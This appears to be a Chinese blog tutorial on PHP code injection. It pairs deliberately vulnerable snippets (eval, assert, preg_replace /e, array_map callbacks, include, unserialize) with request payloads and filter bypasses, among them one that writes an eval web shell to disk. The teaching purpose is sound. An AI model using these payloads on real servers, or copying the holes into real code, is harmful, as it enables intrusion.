 ```yaml
---
title: PHP代码注入和命令注入
date: 2017-04-18 09:16:10
categories: Web安全
tags:
    - PHP
    - 代码注入
    - 命令注入
---
```


## 代码注入和命令注入

代码注入攻击通常是指：用户输入未作严格过滤，导致提交的内容传入某些函数会被当做`PHP代码`执行,而命令注入攻击通常是指：用户输入未作严格过滤，导致提交的内容传入某些函数会被当做`系统命令`执行。
可以看出代码注入攻击和命令注入攻击是类似的，不同点在于，代码注入攻击要实现的功能限制在注入的语言本身，而命令注入是利用已有的系统命令，通常受shell限制。

<!-- more -->

## 代码注入攻击

代码注入攻击一般出现在不安全的使用某些函数，文件包含导致代码注入攻击，反序列化导致的代码注入攻击。

### 常见的相关函数

代码执行函数有: `eval`, `assert`, 正则匹配函数:`preg_replace`, 动态代码执行函数: `create_function`, `call_user_func`, `call_user_func_array`。

* eval

```php
# 1. 没有任何过滤
<?php
@eval($_GET["cmd"]);
?>

?cmd=phpinfo();
?cmd=fputs(fopen('test.php','w'),'<?php @eval($_POST[test])?>')

# 2. addslashes 过滤
<?php
$cmd = @(string)$_GET["cmd"];
eval('$cmd="' . addslashes($cmd) . '";');
?>

# ${${}} 绕过
cmd=${${phpinfo()}}

# 3 双引号包含过滤
<?php
$cmd = "echo \"hello " . $_GET['cmd'] . "\";";
eval($cmd);

# ${${}} 绕过
cmd=${${phpinfo()}}
```

`${${}} 绕过`是利用可变变量的二次嵌套，执行里面花括号内的代码，如: `echo "${${phpinfo()}}";`, 会执行phpinfo(), 这里必须是双引号包含，双引号包含时会解析包含的字符串中的变量。

PHP可变变量可以无需二次嵌套，一次也可以执行，`echo "${phpinfo()}";`这种情况是不能执行的，而`echo "${/**/phpinfo()}";`是能执行phpinfo()的, 这是因为花括号解析语法的关键条件是花括号内的第一个字符，`空格，tab，注释，回车`是各种语法分析引擎中常见的分割字符，`@`是PHP语法的一个特殊的容错符号，所以可变变量内的花括号有这么一个规则，需要判断花括号内的内容是否为真正的代码，条件即是文本的第一个字符串是否为PHP语法解析引擎的分割字符和特殊的语法符号, 因此下面代码都能执行。

```php

```

** php >= 4.3 **

```php
"${ phpinfo()}";
"${    phpinfo()}";
"${/**/phpinfo()}";
"${
phpinfo()}";
"${@phpinfo()}";

"${( string )phpinfo()}";
"${phpinfo[phpinfo()]}";

"{$phpinfo[phpinfo()]}";
"{${phpinfo()}}";
"${${phpinfo()}}";
```

** 更新：php>=5.5 **

```php
"${phpinfo()}";
```
执行phpinfo().

* assert

```php
<?php
@assert($_GET["cmd"]);
?>
cmd=phpinfo();
```

#### preg_replace

preg_replace()函数可以引发代码执行，源于PCRE (Perl Compatible Regular Expressions) 中的e(PREG_REPLACE_EVAL)选项，
这个选项会把replacement中的内容当做PHP代码执行，并取返回结果的值，其中后项引用可以是`$1`，也可以是`\\1`。
当replacement 参数构成一个合理的php 代码字符串的时候，`/e` 修正符使preg_replace()，将replacement 参数当做php 代码执行。

* 第一个参数 pattern的代码注入

```php
# magic_quotes_gpc=Off时，导致代码执行。
<?php
$regexp = $_GET['reg'];
$var = '<php>phpinfo()</php>';
preg_replace("/<php>(.*?)$regexp", '\\1', $var);
?>
```
提交：`reg=%3C\/php%3E/e`, 执行 phpinfo(), 即pattern参数注入`/e`修正符。

一般情况是不会有`e`选项的，我们可以通过`%00`截断等方式来添加

```php
<?php  
$regexp = $_GET['re'];  
$var = '<tag>phpinfo()</tag>';  
preg_replace("/<tag>(.*?)$regexp<\/tag>/", '\\1', $var);  
?>  
```
提交：`reg=%3C\/php%3E/e%00`.

* 第二个参数replacement

```
# /e 修正符使preg_replace()，将replacement 参数当做php 代码执行
<?php
preg_replace("//e", $_GET['cmd'], "cmd test");
?>
```
提交:`cmd=phpinfo()`

*  第三个参数

```php
<?
preg_replace("/\s*\[php\](.+?)\[\/php\]\s*/ies", "\\1", $_GET['h']);
?>
```

提交：`h=[php]phpinfo()[/php]`。

#### 其他函数

* array_map

```php
<?php
$evil_callback = $_GET['callback'];
$some_array = array(0, 1, 2, 3);
$new_array = array_map($evil_callback, $some_array);
?>
```

提交 `http://127.0.0.1/array_map.php?callback=phpinfo`, 即执行`phpinfo()`

```php
array_map()
usort(), uasort(), uksort()
array_filter()
array_reduce()
array_diff_uassoc(), array_diff_ukey()
array_udiff(), array_udiff_assoc(), array_udiff_uassoc()
array_intersect_assoc(), array_intersect_uassoc()
array_uintersect(), array_uintersect_assoc(), array_uintersect_uassoc()
array_walk(), array_walk_recursive()
xml_set_character_data_handler()
xml_set_default_handler()
xml_set_element_handler()
xml_set_end_namespace_decl_handler()
xml_set_external_entity_ref_handler()
xml_set_notation_decl_handler()
xml_set_processing_instruction_handler()
xml_set_start_namespace_decl_handler()
xml_set_unparsed_entity_decl_handler()
stream_filter_register()
set_error_handler()
register_shutdown_function()
register_tick_function()
```

### 文件包含导致代码注入攻击

PHP文件包含会执行包含文件的代码，当开启了远程文件包含，则非常容易引起代码注入攻击。远程文件包含条件: `allow_url_fopen=On`, `allow_url_include=On`, 文件包含相关函数有: `include`, `include_once`, `require`, `require_once`。

```php
<?php
include($_GET['cmd']);
?>
```

提交：`cmd=data:text/plain,%3C?php%20phpinfo%28%29;?%3E`, 即执行phpinfo()。

### 反序列化导致的代码注入攻击

```php
<?php
class Example {
    var $var = '';
    function __destruct() {
        eval($this->var);
    }
}

unserialize($_GET['saved_code']);
?>
```
提交: `unserialize.php?saved_code=O:7:%22Example%22:1:{s:3:%22var%22;s:10:%22phpinfo%28%29;%22;}`,即执行phpinfo()

#### 绕过方法

有一些程序中会判断用户输入是不是一个序列化的数据，常见的代码如下
```php
$token = $data[0];  
switch ( $token ) {  
    case 's' :  
        if ( '"' !== $data[$length-2] )  
            return false;  
    case 'a' :  
    case 'O' :  
        return (bool) preg_match( "/^{$token}:[0-9]+:/s", $data );  
    case 'b' :  
    case 'i' :  
    case 'd' :  
        return (bool) preg_match( "/^{$token}:[0-9.E-]+;\$/", $data );  
```
这个可以用+来绕过，这也属于PHP的一种特性: `O:+4:"test":1:{s:1:"a";s:3:"aaa";}`
